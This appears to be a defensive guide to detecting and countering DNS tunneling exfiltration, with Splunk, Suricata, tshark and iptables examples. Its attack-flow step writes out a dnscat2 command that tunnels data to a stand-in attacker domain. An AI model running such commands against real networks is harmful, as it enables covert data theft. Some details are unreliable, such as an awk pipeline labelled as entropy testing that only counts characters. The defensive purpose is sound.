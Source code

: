 #### **Example Attack Flow**:  
1. **Attacker** sets up a DNS server (e.g., `attacker.com`).  
2. **Victim** runs a client (e.g., `dnscat2`) to encode data into DNS queries:  
   ```bash  
   dnscat2 --dns server=attacker.com,domain=malicious.org  
   ```  
3. **Exfiltration**: Data is split into chunks and sent as subdomains (e.g., `[data].malicious.org`).  

---

### **Detection Strategies**  
#### **A. Network-Based Detection**  
- **Unusual Query Volume**:  
  - A single host generating 10,000+ DNS queries/day (e.g., `count by src_ip` in Splunk).  
  ```splunk  
  index=dns | stats count by src_ip | where count > 10000  
  ```  
- **Long Domain Names**:  
  - Legitimate domains are rarely >50 characters. Use Suricata to flag long FQDNs:  
    ```suricata  
    alert dns any any -> any any (msg:"Long DNS Query"; dns.query; len:>100; sid:1000003;)  
    ```  
- **Uncommon Record Types**:  
  - Look for excessive `TXT`, `NULL`, or `CNAME` queries (common in tunneling tools).  

#### **B. Payload Analysis**  
- **Entropy Testing**:  
  - DNS tunneling often uses high entropy (random-looking strings). Tools like `dnspeep` can calculate entropy:  
    ```bash  
    tshark -r dns_traffic.pcap -Y "dns" -T fields -e dns.qry.name | awk '{print $1, gsub(/[a-zA-Z0-9]/, "")}'  
    ```  

#### **C. Behavioral Anomalies**  
- **Geolocation Mismatch**:  
  - Queries for `attacker.com` resolving to a non-legitimate DNS server in a foreign country.  

---

### **Defensive Countermeasures**  
1. **DNS Logging & Analysis**:  
   - Deploy a DNS firewall (e.g., Cisco Umbrella) to log and block malicious domains.  
2. **Rate Limiting**:  
   - Restrict DNS queries per host (e.g., `iptables` rule for Linux):  
     ```bash  
     iptables -A OUTPUT -p udp --dport 53 -m limit --limit 50/minute -j ACCEPT  
     ```  
3. **Threat Intelligence Feeds**:  
   - Integrate feeds like AlienVault OTX to block known tunneling domains.  
4. **DNSSEC**:  
   - Enforce DNSSEC to prevent DNS spoofing and hijacking.  

---